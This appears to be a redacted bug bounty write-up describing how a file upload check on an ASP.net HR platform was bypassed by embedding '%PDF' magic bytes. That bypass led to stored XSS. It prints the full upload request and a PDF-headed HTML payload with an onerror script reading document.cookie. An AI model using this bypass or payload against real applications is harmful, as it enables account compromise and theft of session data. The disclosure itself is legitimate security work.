 ```yaml
---
title: Arbitary File Upload too Stored XSS - Bug Bounty 
tags: [Bug Bounty, Arbitary File Upload, Stored XSS]
description: Readacted Writeup of how I got Stored XSS by Exploiting a Unrestricted File Upload bug. 
published: true
image: https://i.imgur.com/vNZchC3.png
thumbnail: https://i.imgur.com/vNZchC3.png
---
```




##  Introduction



Recently I was working on a private bug bounty program which was relatively new so I decided to check it out, I did not obtain full disclosure hence the redacted post.



The Web Application provided a HR and Bookkeeping platform similar to Sage but online and written in ASP.net. Due to improper checking on file uploads, I was able to bypass the restrictions in place to upload a `.html` containing `PDF` magic-bytes and include arbitary `JavaScript` thus gaining `Stored XSS`



##  Basic Enumeration



My initial enumeration on the application started by clicking through the application and discovering as many parameters as possible. While doing this I came across a interesting form which allowed users to attach `PDF's` only. 



It appeared that the application was checking 2 things to ensure that the user only uploaded a `PDF`, Firstly it checked if the `Content-Type` matched `application/pdf` and secondly carried out some `MIME Sniffing` by ensuring the body contained the PDF Magic Bytes `%PDF`



However while the application checked if the supplied file contained `%PDF` it did not check where the magic-bytes where, therefore providing the file you uploaded contained `%PDF` anywhere it would be accepted. 

  



## Exploiting / PoC



At this point I decided to try upload a basic `.exe` as a `PoC` and was able too do some with the below request.



```
POST /api/internal/salesdocumentattachment/upload/image HTTP/1.1
Host: xxxxxxx.readacted.com
Connection: close
Content-Length: 471870
X-XSRF-Token: readacted
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Accept: application/json
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6Bbv3VuL9Lj78ZWq
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: 

------WebKitFormBoundary6Bbv3VuL9Lj78ZWq
Content-Disposition: form-data; name="file"; filename="m0chan.exe"
Content-Type: application/pdf

MZýýýý@ýýý  ý!ýLý!This program %PDFcannot be run in DOS mode.

readacted file content
------WebKitFormBoundary6Bbv3VuL9Lj78ZWq--
```



As you can see I added the `%PDF` magic byte inside the first string and it got accepted, an attacker could easily compile a application with `%PDF` as a string and it would get accepted. However I decided I would try elevate the severity of this by trying to upload a shell or a `.svg`



After a few hours of trying various different web languages it appeared that the download link I was accessing to download my uploads was not interpreting anything or being served, however it did offer a preview functionality. 



I crafted a payload with help of my friend [@fuckup](https://twitter.com/fuckup_1337) which contained the PDF MagicBytes, Arbitary JavaScript and was uploaded as a `.html`



```
%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<h1>Payload PDF</h1> <img src=x onerror=alert(document.cookie)>
```



After uploading I visited the URL directly and was greeted with the following :) 

<img align ="center" src ="http://i.imgur.com/lruxehV.png"></img>



I found it really strange that only `.html` was being interpreted and tried for a few more hours to serve other web-languages with no avail.



I later discovered the uploaded files were not actually being uploaded to the webserver itself so would never have been interpreted. 



 ## Timeline



**Tuesday 3rd Feb** - Reported Arbitary File Upload too H1

**Tuesday 4th Feb** - Added Stored XSS too Report

**Tuesday 5th Feb**- Triaged and Bounty Awarded

**Monday 2nd March - Resolved**





